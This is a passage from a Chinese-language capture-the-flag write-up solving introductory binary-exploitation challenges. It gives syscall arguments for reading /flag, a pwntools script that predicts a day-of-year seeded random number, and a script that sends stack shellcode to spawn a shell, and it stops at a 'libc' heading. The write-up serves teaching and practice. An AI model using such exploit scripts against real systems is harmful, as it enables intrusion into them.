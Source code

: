 此题考查 Linux API 基础，答案不唯一。输入 /flag 作为待读取文件。`open` /flag 时需要读权限标记（`flags`）`O_RDONLY`（0），`mmap` 空间时需要读写权限（`prot`）`PROT_READ | PROT_WRITE`（3）及 `MAP_ANONYMOUS | MAP_PRIVATE` 标记（34）。由于开启 /flag 前已经开启了两个文件，加上 `stdin` `stdout` `stderr`，/flag 的 fd 应是 5。除文件名外程序只接受对应的参数的十进制数值，上述宏的值可通过对应头文件查得，或手动在本地输出它们对应的值。

其实 `mmap` 大致存在两种用法，常见的是将文件映射到内存上，还有一种比较陌生的用法是分配匿名空内存块，本题中 `mmap` 用法为后者（为之后的 shellcode 题目作铺垫）。本题表述不够清晰且没给程序附件，因此赛中给出了提示：“`mmap` 传入的 `fd` 是 `-1`”，指明 `mmap` 用法。

**综上，依次输入：4 /flag 0 3 34 5 即可。**

## 这是什么？random！

题目为猜数字游戏，生成随机数的种子是 一年中当前天数 **- 1**（`localtime(...).tm_yday`）。照抄附件程序中生成随机数的逻辑并预先生成好 10 个随机数并依次输入即可。为方便，也可使用 Python `ctypes`。

Exp:

```python
from pwn import *
from ctypes import cdll
from time import localtime

io = ...

libc = cdll.LoadLibrary("libc.so.6")
libc.srandom(localtime().tm_yday - 1) # 注意 Python `time.localtime` 与 C 标准库的同名函数行为不同。

for _ in range(10):
    io.sendlineafter(b"\n", str(libc.random() % 90000 + 10000).encode())

io.sendlineafter(b"\n", str(42).encode()) # 任意值
io.sendlineafter(b"\n", str(42).encode()) # 任意值

io.interactive()
```

## 这是什么？shellcode！

没有任何检查关闭 NX 保护直接执行栈上 shellcode（直接输入）。

Exp:

``` python
from pwn import *

context(os="linux", arch="amd64")
io = ...

io.send(asm(shellcraft.sh()))

io.interactive()
```

## 这是什么？libc！
